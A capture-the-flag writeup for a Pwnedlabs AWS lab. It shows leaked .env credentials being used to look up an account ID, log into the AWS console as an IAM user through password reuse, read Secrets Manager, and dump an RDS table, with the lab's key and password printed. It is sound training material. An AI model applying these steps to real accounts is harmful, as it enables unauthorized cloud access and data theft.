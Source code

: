 ```yaml
---
author: Nithissh S
pubDatetime: 2024-03-12T15:22:00Z
modDatetime: 2024-03-12T09:12:47.400Z
title: Leverage leaked credentials for pwnage - Pwnedlabs Writeup
slug: leverage-leaked-creds
featured: false
draft: false
tags:
  - AWS
  - Account IDs
  - AWS RDS
  - Pwnedlabs
  - IAM Policies
description:
  You will learn how to enumerate the Account ID with the Access key you found during your assessment and later on we will address RDS database enumeration
---
```



# Initial Entry

As an Initial Entry point we have been provided with the following details 

  

|     |     |
| --- | --- |
| Type | Value |
| Github | [https://github.com/huge-logistics/aws-react-app](https://github.com/huge-logistics/aws-react-app)<br> |

  

The scenario here is ever-shifting world of logistics, Huge Logistics has emerged as an undisputed global leader. Yet, every Goliath has its vulnerabilities. Whispered rumors in cybersecurity circles suggest that amidst the vast digital sprawl of Huge Logistics, there might lie unnoticed weaknesses. As a seasoned security consultant, your mission is set: Navigate the labyrinth of Huge Logistics' GitHub repositories, looking for the smallest chink in their armor. Dive deep, analyze thoroughly, and leave no stone unturned. Can you spot what others have missed?

  

## Solution 

In the following repository, where they have been provided with `.env` file and inspecting that we found two interesting things which will be useful for us one is the AWS access key which is `AKIAWHEOTHRFVXYV44WP`  

  

![](../../assets/images/lev1.png) 

  

With the aws cli module, we can retrieve the account ID of this access key with the following command `aws sts get-access-key-info --access-key <access key>` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP --profile nithissh
{
    "Account": "427648302155"
}
```

  

In the same `.env`  file we also have database credentials with username as `jose`  and password as `DevOps0001!` and let’s do one thing like credential stuffing attack on AWS login console.. We know the AWS account ID right so through IAM login, fill up the account ID as `427648302155` later the username and password as `jose` and `DevOps0001!` 

  

![](../../assets/images/lev2.png) 

  

Once we click on login and suprisingly the method worked out and logged in as a IAM user called `jose` and exploring the console they used `AWS secrets manager` may be they would have used recently 

  

![](../../assets/images/lev3.png)  
  

There are 4 secrets being stored over there and out of which two are interesting one is [employee-database-admin](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and [employee-database](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) 

  

Accessing the [`employee-database-admin`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) is restricted here and particularly for this account

  

![](../../assets/images/lev4.png) 
  

But we can able to access [`employee-database`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and retrieve the secrets like DB name, DB username and password.. Also the hostname

  

With the following details and we connect it through `mysql-client` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ mysql -u reports -h employees.cwqkzlyzmm5z.us-east-1.rds.amazonaws.com -
D employees -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 496468
Server version: 5.5.5-10.6.10-MariaDB managed by https://aws.amazon.com/rds/

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

We can list the tables using `show tables;` query and found that `flag` row exists which is obviously our objective to capture 

  

```sql
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| countries           |
| departments         |
| dependents          |
| employees           |
| flag                |
| jobs                |
| locations           |
| regions             |
+---------------------+
8 rows in set (0.25 sec)
```

  

Now finally, you can the get flag through `SELECT * FROM flag`  and it will dump out our flag

  

```sql
mysql> SELECT * FROM flag;
+----------------------------------+
| flag                             |
+----------------------------------+
| d0e4b22365ad230c53c4ffc269dc0202 |
+----------------------------------+
1 row in set (0.24 sec)
```